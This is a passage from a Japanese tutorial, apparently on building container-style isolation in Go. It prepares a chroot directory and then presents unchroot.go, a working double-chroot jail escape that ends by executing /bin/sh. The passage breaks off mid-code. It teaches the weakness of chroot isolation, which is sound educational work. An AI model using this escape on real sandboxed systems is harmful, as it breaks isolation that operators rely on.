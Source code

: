 ```sh
mkdir -p /root/chroot/proc
```

また、chroot 後の環境でも `sh` と `ls` が利用できるように、`sh`, `ls` 並びに必要な静的ライブラリを設置します。

```sh
mkdir -p /root/chroot/bin
mkdir -p /root/chroot/lib

cp /bin/sh /root/chroot/bin
cp /bin/ls /root/chroot/bin

ldd /bin/sh
ldd /bin/ls

cp /lib/x86_64-linux-gnu/libc.so.6 /root/chroot/lib
cp /lib64/ld-linux-x86-64.so.2 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libselinux.so.1 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libpcre.so.3 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libdl.so.2 /root/chroot/lib
cp /lib/x86_64-linux-gnu/libpthread.so.0 /root/chroot/lib

cd /root/chroot/
ln -s lib lib64

cd ~ubuntu
```

上記のように変更したあと、`go run main.go run` などでプログラムを実行してみましょう。

### Escaping a chroot

さて、`chroot(2)` を利用してルートディレクトリを分離しました！これで実行されたプロセスからは上位のディレクトリが見えなくなって安全です！

...というのは本当でしょうか？

`main.go` と同様に、ubuntu ユーザのホームディレクトリ (`/home/ubuntu`) に、`unchroot.go` という次のようなファイルを設置してみます。

```sh
touch unchroot.go
chown ubuntu:ubuntu unchroot.go
```

```go
package main

import (
	"fmt"
	"os"
	"syscall"
)

func main() {
	if _, err := os.Stat(".42"); os.IsNotExist(err) {
		if err := os.Mkdir(".42", 0755); err != nil {
			fmt.Println("Mkdir failed")
		}
	}
	if err := syscall.Chroot(".42"); err != nil {
		fmt.Println("Chroot to .42 failed")
	}
	if err := syscall.Chroot("../../../../../../../../../../../../../../../.."); err != nil {
		fmt.Println("Jail break failed")
	}
	if err := syscall.Exec("/bin/sh", []string{""}, os.Environ()); err != nil {
		fmt.Println(err)
		fmt.Println("Exec failed")
```
